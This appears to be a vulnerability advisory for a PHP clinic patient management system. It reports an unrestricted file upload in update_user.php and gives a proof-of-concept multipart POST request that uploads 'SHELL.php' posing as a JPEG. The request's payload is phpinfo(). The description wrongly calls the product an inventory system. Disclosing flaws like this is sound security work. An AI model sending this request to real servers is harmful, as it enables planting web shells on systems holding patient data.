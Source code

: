 ## The clinic patient management system has File upload vulnerability
## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/update_user.php
## describe
An unrestricted file upload attack exists in an inventory management system. An attacker can directly upload malicious script files to the target server.
## code analysis
There are no restrictions on uploading in update_user.php. You can directly upload script files to the target server.
<img width="979" alt="image" src="https://github.com/user-attachments/assets/2709da9b-11eb-4f2a-935b-8f9bbe506db7">


POC
```
POST /pms/update_user.php?user_id=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------360883981378190962154985321
Content-Length: 823
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/update_user.php?user_id=1
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd; __insuarance__logged=1; __insuarance__key=SK9MGL4R5CQPM34FZSH3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------360883981378190962154985321
Content-Disposition: form-data; name="hidden_id"

1
-----------------------------360883981378190962154985321
Content-Disposition: form-data; name="display_name"

Administrator
-----------------------------360883981378190962154985321
Content-Disposition: form-data; name="username"

admin
-----------------------------360883981378190962154985321
Content-Disposition: form-data; name="password"


-----------------------------360883981378190962154985321
Content-Disposition: form-data; name="profile_picture"; filename="SHELL.php"
Content-Type: image/jpeg

<?php phpinfo();?>
-----------------------------360883981378190962154985321
Content-Disposition: form-data; name="save_user"
```